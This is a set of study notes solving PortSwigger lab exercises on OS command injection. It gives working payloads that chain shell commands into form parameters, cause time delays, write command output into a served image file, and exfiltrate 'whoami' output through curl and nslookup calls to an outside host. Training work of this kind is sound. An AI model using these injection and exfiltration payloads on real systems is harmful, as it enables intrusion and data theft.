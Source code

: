 # OS COmmand Injection

- https://portswigger.net/web-security/os-command-injection

## OS command injection, simple case

At `POST /product/stock` request modyfing a `stockId` param allows us to perform RCE and see the output(request must be URL encoded):

```
productId=2&storeId=1 && echo test
```

Response:

```
32
test
```

Payload solved the lab:

```
productId=2&storeId=1 && whoami
```

## Blind OS command injection with time delays

Assuming Submit Feedback option uses `mail` command, we can try to inject functions causing delays.

Adding `$(sleep 10)` or `$(ping -c 10 127.0.0.1)` to the mail message solved the lab.

This works because the `"` is used to create a string. In `'` marks commandd would not be executed and would require their termination beforehand.

## Blind OS command injection with output redirection

Same history regarding submit feedback functionality.

Making use of that the website serves static files, we can output file content into one of them and read it.

Running on OS command `ls /test && sleep 3` creates a delay when the file is present and return with error imidiately if it is not.

With this it is possible to find that `/var/www/images/` is the path for images (`22.jpg` image was listed in the website):

```
message=message $(ls /var/www/images/22.jpg && sleep 3)
```

Then with this payload we can store the output of a command to an `"image"`:

message=message $(whoami > /var/www/images/tmp.jpg)

And retrieve its content:

```
curl https://0af8000b03830b5d832ff27200c60040.web-security-academy.net/image?filename=tmp.jpg
```

## Blind OS command injection with out-of-band interaction
## Blind OS command injection with out-of-band data exfiltration

Both requires Burp collaborator, but can be done by injecting something like:

```
$(curl https://aaaaaa.free.beeceptor.com/?q=$(whoami))
```

or (beeceptor is not a tool for this, but for demonstration purposes)

```
$(nslookup $(whoami).aaaaaa.free.beeceptor.com)
```
